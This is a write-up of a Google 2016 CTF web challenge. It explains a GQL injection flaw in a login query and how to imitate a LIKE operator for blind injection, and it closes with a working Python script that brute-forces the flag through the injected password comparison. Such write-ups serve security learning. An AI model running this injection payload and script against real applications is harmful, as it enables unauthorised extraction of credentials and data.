 # Do a GQL LIKE query

## Introduction

you can think of a GQL kind as a SQL table, a GQL entity as a SQL row, and a GQL property as a SQL column. However, a SQL row-column lookup is limited to a single value, whereas in GQL a property can be a multiple value property.

GQL offers limited set of commands comparing to SQL, for example, there's no LIKE operator in GQL.

So, here I will show you how to mimic a LIKE operator in GQL.

This trivia was discovered in Google 2016 CTF web challenge `Flag Storage Service`.

## Impact

The most important part of code in this challenge is that we can clearly discover a potential injection point:

```python
@classmethod
def Login(cls, username, password):
    query = "SELECT * FROM User WHERE username = '%s'" % username
    if password is not None:
        query += " AND password = '%s'" % password
```

After the processing procedure, it's importing `google.appengine.api` and executing `qry = ndb.gql(query)`.

Now, if you want to exploit it with normal SQL injection techniques, you'll soon find out GQL almost lacks everything you need, such as LIKE operator.

But, thanks to this [discussion](https://groups.google.com/forum/#!topic/google-appengine-python/pw6jJdwUOAU), we can mimic one in GQL finally.

Therefore, it turns out to be a normal blind SQL injection, and CTF-quality code is provided:

```python
import urllib2
import ssl

def main():
    gcontext = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
    prev = None # to remember which position is the actual flag fragment
    count = 0 # final determination to end the loop

    flag = ""
    url = "https://next-bitter-flag.ctfcompetition.com/login"
    data = "username=manager' AND password > '"

    should_restart = True
    while should_restart:
        should_restart = False
        for asc in xrange(32, 127):
            print "[Debug] Try {0}".format(asc)
            r = urllib2.urlopen(url, data="{0}{1}".format(data, chr(asc)), context=gcontext).read()
            if r.__sizeof__() == 2185 and asc == 126: # at the last position
                if flag[-1] == '|':
                    flag = flag[:-1] + '}'
                    print "This is your final flag: {0}".format(flag)
                    break
                else:
                    flag = "".join([flag, chr(asc)])
                    data = "".join([data, chr(asc)])
                    print flag
                    should_restart = True
                    break
            elif r.__sizeof__() == 2185:
                prev = chr(asc)
            elif r.__sizeof__() == 2194 and prev is not None:
                flag = "".join([flag, prev])
                data = "".join([data, prev])
                print flag
                should_restart = True
                break

def test():
    assert main() == 'CTF{,Why,did,the,grape,stop,in,the,middle,of,the,road---Because,he,ran,out,of,juice,}'

if __name__ == '__main__':
    print main()
```

## Reference

1. [GQL Reference](https://cloud.google.com/datastore/docs/reference/gql_reference)
2. [Is it possible to do a Gql LIKE query?](https://groups.google.com/forum/#!topic/google-appengine-python/pw6jJdwUOAU)
